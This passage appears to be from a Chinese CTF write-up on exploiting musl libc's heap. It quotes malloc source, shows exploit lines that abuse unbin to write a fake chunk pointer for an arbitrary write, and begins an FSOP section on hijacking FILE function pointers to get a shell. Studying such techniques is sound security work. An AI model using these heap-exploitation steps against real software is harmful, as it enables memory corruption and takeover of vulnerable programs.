 然后释放一个 0x20 字节的 chunk。

```c
// src/malloc/malloc.c L188-L191
static void unbin(struct chunk *c, int i)
{
	if (c->prev == c->next)
		a_and_64(&mal.binmap, ~(1ULL<<i));

[...]
}
```

```c
void __bin_chunk(struct chunk *self)
{

[...]
	// src/malloc/malloc.c L482-L483
	if (!(mal.binmap & 1ULL<<i))
		a_or_64(&mal.binmap, 1ULL<<i);

[...]
}
```

这是因为当`prev`和`next`指针相等时，unbin 会将`mal.bins[0]`设置为空 bin。导致`mal.bins[0]`不可用。只要释放任意 0x20 的 chunk ，`mal.bins[0]`就能重新设置为非空 bin。

注意待释放的 chunk 前后不能有空闲 chunk，否则 free 将其进行合并，导致 chunk 被释放到其他的 bin 中。

```python
edit(3, p64(bin - 0x10) + p64(fake_chunk))
add(0x10) # 3, unbin
add(0x50) # n+1, target
```

最后利用 unbin 将 fake_chunk 地址写到`mal.bins[38]->head`指针上，最终控制`target`。

### 4.3 FSOP

泄漏 libc 基址和实现任意地址写之后，接下来考虑如何劫持程序控制流来拿 shell。musl libc 没有类似`__malloc_hook`之类可以方便劫持控制流的 hook 函数，目前可行的方法只有做 FSOP，覆盖`FILE`结构体上面的函数指针（若不考虑上面提到的非预期解）。

```
pwndbg> ptype stdin
type = struct _IO_FILE {
    unsigned int flags;
    unsigned char *rpos;
    unsigned char *rend;
    int (*close)(FILE *);
    unsigned char *wend;
    unsigned char *wpos;
    unsigned char *mustbezero_1;
    unsigned char *wbase;
    size_t (*read)(FILE *, unsigned char *, size_t);
    size_t (*write)(FILE *, const unsigned char *, size_t);
    off_t (*seek)(FILE *, off_t, int);
    unsigned char *buf;
    size_t buf_size;
    FILE *prev;
    FILE *next;
    int fd;
    int pipe_pid;
    long lockcount;
    int mode;
    volatile int lock;
    int lbf;
```